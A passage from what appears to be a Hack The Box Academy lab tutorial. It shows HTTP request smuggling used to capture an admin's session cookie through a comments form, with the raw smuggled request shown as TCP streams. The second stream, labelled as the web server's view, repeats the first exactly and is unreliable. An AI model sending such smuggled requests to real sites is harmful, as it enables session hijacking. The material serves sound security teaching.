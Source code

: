 ```http
name=hacker&comment=test

```

After sending this request, we have to wait for some time without sending any further requests. When we now refresh the comments section, we can see the admin user's request containing the session cookie. We can now steal the session cookie to access the admin panel:

![](https://academy.hackthebox.com/storage/modules/191/req_smuggling/stealingdata_2.png)

To understand what happened, let's again look at the TCP stream. Just like in the previous sections, we are going to look at the reverse proxy's perspective first:

```
POST / HTTP/1.1
Host: stealingdata.htb
Content-Type: application/x-www-form-urlencoded
Content-Length: 154
Transfer-Encoding: chunked

0

POST /comments.php HTTP/1.1
Host: stealingdata.htb
Content-Type: application/x-www-form-urlencoded
Content-Length: 300

name=hacker&comment=testGET / HTTP/1.1
Host: stealingdata.htb
Cookie: sess=<admin_session_cookie>

```

Since the reverse proxy uses the CL header to determine the request length, it forwards our smuggled request to the web server in the first request's body. The reverse proxy sees our POST request to `/` and the admin's GET request to `/`.

Now let's look at the TCP stream from the web server's view:

```
POST / HTTP/1.1
Host: stealingdata.htb
Content-Type: application/x-www-form-urlencoded
Content-Length: 154
Transfer-Encoding: chunked

0

POST /comments.php HTTP/1.1
Host: stealingdata.htb
Content-Type: application/x-www-form-urlencoded
Content-Length: 300

name=hacker&comment=testGET / HTTP/1.1
Host: stealingdata.htb
Cookie: sess=<admin_session_cookie>

```
